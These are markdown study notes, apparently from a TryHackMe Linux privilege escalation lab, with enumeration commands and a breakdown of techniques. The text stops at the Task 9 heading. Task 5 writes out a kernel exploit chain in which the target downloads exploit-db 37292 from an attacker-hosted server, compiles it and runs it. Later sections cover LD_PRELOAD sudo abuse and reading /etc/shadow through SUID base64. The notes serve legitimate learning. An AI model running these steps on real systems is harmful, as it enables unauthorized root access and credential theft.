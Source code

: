 # Room
https://tryhackme.com/room/linprivesc

# Task 1 - Intro
Intro

# Task 2 - What is privilege escalation
* privilege escalation involves moving from a lower permission account to a higher permission account
* privilege escalation is the exploitation of a design flaw to gain unauthorized access

# Task 3 - enumeration
* post system access, you'll need to enumerate the machine to figure out if there is any opportunity for privilege escalation
* useful commands to gain info on a system you have access to - these are Linux related
    * hostname - print hostname
    * uname -a - print kernel details
    * cat /proc/version - provides kenerl and process details
    * cat /etc/issue - contains info abuot the OS
    * ps - list system processes
        * ps -A - view all running procs
        * ps axjf - view process tree
        * ps aux - view procs for all users
    * env - view environment variables
    * sudo -l - list the current users sudo privileges
    * ls - list files
    * id - list the uid, gid, and groups that the current user belongs to
    * cat /etc/passwd - a list of users and services on the machine
    * history - view the command history of the current user
    * ifconfig - view network interface configuration
    * ip route - list assigned/configured network routes
    * netstat - list listening and established connections to the machine
        * netstat -at - list IPv4/IPv6 TCP connections
        * netstat -au - list IPv4/IPv6 UDP connections
        * netstat -l - list all listening services
        * netstat -s, netstat -st, netstat -su - list stats for the network, tcp only, udp only
        * netstat -i - show interface stats
    * find - find things on the system
        * find . -name flag1.txt - find the thing named flag1.txt in the current directory
        * find /home -name flag1.txt - find the thing named flag1.txt in the /home directory
        * find / -type d -name config - find the directory named config in the root
        * find / type f -perm 0777 - find files with permissions set to 0777
        * find / -perm a=x - find executable things
        * find /home -user frank - find things that frank owns in the home directory
        * find / -mtime 10 - find things modified in the last 10 days
        * find / -atime 10 - find things that were accessed in the last 10 days
        * find / -cmin -60 - find things changed in the last hour
        * find / -amin -60 - find things accessed in the last hour
        * find / -size 50M - find things with a 50 meg file size
            * you can also use + or - for sizings to find things less than or larger than what you are searching for
        * to avoid all the permissions spam redirect your find commands to null
            * 2> /dev/null

# Task 4 - automated enumeration tools
* a few automated tools
    * https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
    * https://github.com/rebootuser/LinEnum
    * https://github.com/mzet-/linux-exploit-suggester
    * https://github.com/diego-treitos/linux-smart-enumeration
    * https://github.com/linted/linuxprivchecker

# Task 5 - privilege escalation - kernel exploits
* manually exploit a kernel vulnerability
    * connect to the machine using the creds provided
    * recon
        * target: uname -a
    * since we already know this is a kernel vulnerability, search google for the exploit
        * 3.13.0-24-generic exploit
        * https://www.exploit-db.com/exploits/37292
    * Kali has a preconfigured exploit on the attack box, host it up and transfer it to the target
        * attacker: searchsploit -m 37292 .
        * attacker: python -m http.server 9393
        * target: cd /tmp
        * target: wget http://10.10.10.10:9393/37292.c
        * target: gcc 37282.c -o e
        * target: chmod +x e
        * target: ./e
        * target: whoami

# Task 6 - privilege escalation - sudo
* sudo allows you to run a program with root privileges
* to list what programs you can use with sudo, type sudo -l
* you can perform privilege escalation with a number of commands that have been enabled for you with sudo
    * https://gtfobins.github.io/
* LD_PRELOAD is a function that allows any program to use shared libraries
* some systems may have the LD_PRELOAD environment option enabled, if so you can exploit that
* LD_PRELOAD exploitation works as follows
    * check for the LD_PRELOAD option with env_keep - sudo -l
    * write a simple c script and compile it as a shared object file, .so extension
    * run the shared object file along with your sudo enabled command
        * sudo LD_PRELOAD=/tmp/example.so find

# Task 7 - privilege escalation - suid
* file permissions : read, write, execute
* SUID bit
    * user executes file with permissions of file owner
    ```
    rw-rw-rw-
      |
      |--- SUID bit
      |
    rwSrw-rw-
    ```
* SGID bit
    * user executes file with permissions of group owner
    ```
    rw-rw-rw-
         |
         |--- SGID bit
         |
    rw-rwSrw-    
    ```
* Searching for these types of files
    ```
    find / -perm -u=s -type f 2>/dev/null
    find / -type f -perm -04000 -ls 2>/dev/null
    ```
* SUID escalation can be found using resources like gtfobins
    * https://gtfobins.github.io/#+suid
* taking advantage of base64 and SUID
    * LFILE=/etc/shadow
    * /usr/bin/base64 "$LFILE" | base64 --decode

# Task 8 - privilege escalation - capabilities
* capabilities changes the the binary instead of the user permission
* getcap -r / 2>/dev/null

# Task 9 - privilege escalation - cron jobs